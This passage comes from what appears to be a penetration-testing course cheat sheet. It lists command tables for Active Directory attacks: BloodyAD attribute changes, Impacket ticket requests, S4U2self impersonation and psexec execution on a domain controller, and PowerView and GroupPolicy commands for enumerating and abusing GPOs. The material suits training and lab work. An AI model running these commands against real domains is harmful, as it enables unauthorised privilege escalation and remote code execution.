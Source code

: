 | `python3 bloodyAD.py -d <DOMAIN> -u <USER> -p <PASSWORD> --host <DC_IP> get object <ACCOUNT>` | BloodyAD command to get information about an account |
| `python3 bloodyAD.py -d <DOMAIN> -u <USER> -p <PASSWORD> --host <DC_IP> set object <ACCOUNT> <ATTRIBUTE>` | BloodyAD command to clear or set an attribute of an account |
| `getTGT.py <DOMAIN>/<USER>:<PASSWORD> -dc-ip <DC_IP>` | Impacket command to request a TGT |
| `KRB5CCNAME=<TICKET_FILE> getST.py <DOMAIN>/<USER> -self -impersonate <USER> -altservice <SERVICE> -k -no-pass -dc-ip <DC_IP>` | Impacket command to request a S4U2self service ticket |
| `KRB5CCNAME=<TICKET_FILE> psexec.py <DC_HOST> -k -no-pass` | Impacket command to execute commands on a remote machine using a service ticket |

## GPO Attacks

| `Command`                                                                                                                                                                                                                                                                                                     | `Description`                                     |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------- |
| `$userSID = ConvertTo-SID <NAME>`                                                                                                                                                                                                                                                                             | Convert a username to SID with PowerView          |
| `Get-DomainGPO`                                                                                                                                                                                                                                                                                               | Retrieve all GPOs created in the current domain   |
| `Get-DomainObject -SearchScope Base -Properties gplink`                                                                                                                                                                                                                                                       | Search which GPOs are applied to the Domain       |
| `Get-DomainObjectAcl -ResolveGUIDs`                                                                                                                                                                                                                                                                           | Get the Active Directory rights affecting the GPO |
| `ConvertFrom-SID S-1-5-21-831407601-1803900599-2479021482-1604`                                                                                                                                                                                                                                               | Convert the SecurityIdentifier to the group name  |
| `Get-DomainGroupMember "<NAME>"`                                                                                                                                                                                                                                                                              | Get group membership                              |
| `Get-DomainSite -Properties gplink`                                                                                                                                                                                                                                                                           | Get gplink on Sites                               |
| `Get-DomainOU \| select name, gplink`                                                                                                                                                                                                                                                                         | Get gplink on OU                                  |
| `Get-DomainOU \| foreach { $ou = $_.distinguishedname; Get-DomainComputer -SearchBase $ou -Properties dnshostname \| select @{Name='OU';Expression={$ou}}, @{Name='FQDN';Expression={$_.dnshostname}} }`                                                                                                      | List computers within each OU                     |
| `New-GPO -Name TestGPO -Comment "This is a test GPO."`                                                                                                                                                                                                                                                        | Create a New GPO                                  |
| `New-GPLink -Name TestGPO -Target "OU=TestOU,DC=inlanefreight,DC=local"`                                                                                                                                                                                                                                      | Link a GPO to an OU                               |
| `Get-GPOEnumeration`                                                                                                                                                                                                                                                                                          | Get GPOs where users have modification rights     |